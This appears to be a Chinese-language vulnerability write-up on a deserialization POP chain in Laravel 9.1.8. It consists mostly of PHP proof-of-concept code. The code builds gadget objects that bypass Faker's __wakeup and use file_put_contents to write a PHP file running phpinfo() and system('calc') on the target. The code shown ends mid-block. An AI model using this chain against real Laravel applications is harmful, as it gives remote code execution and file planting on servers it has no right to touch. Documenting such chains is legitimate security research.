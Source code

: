 
# Laravel 9.1.8 POP Chain4
## 漏洞描述

```
Laravel 9.1.8, when processing attacker-controlled data for deserialization, allows Remote Code Execution via an unserialize pop chain in (1) __destruct in Illuminate\Routing\PendingResourceRegistration.php .(2) register in Illuminate\Routing\PendingResourceRegistration.php.(3) __call in Faker\Generator.php . This poc bypasses __wakeup in Faker\Generator.php : https://inhann.top/2022/05/17/bypass_wakeup/
```

## 漏洞分析

根据漏洞信息的描述, 该条链子依旧是`ByPass`了`src/Faker/Generator.php`中的`__wakeup`方法. 漏洞分析逻辑如上文所述.

## POP Chain

```php
<?php

namespace Faker {
    class Generator {
        protected $providers = [];
        protected $formatters = [];
        function __construct() {
            $this->formatter = "register";
            $this->formatters = 9999;
        }

    }
}

namespace Illuminate\Routing {
    class PendingResourceRegistration {
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options = [];
        protected $registered = false;
        function __construct() {
            $this->registrar = new \Faker\Generator();
            $this->name = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->controller = "<?php phpinfo();system('calc');?>";
            $this->options = 8;
        }

    }
}

namespace Symfony\Component\Mime\Part {
    abstract class AbstractPart {
        private $headers = null;
    }
    class SMimePart extends AbstractPart {
        protected $_headers;
        public $h3rmesk1t;
        function __construct() {
            $this->_headers = ["register"=>"file_put_contents"];
            $this->h3rmesk1t = new \Illuminate\Routing\PendingResourceRegistration();
        }
    }
```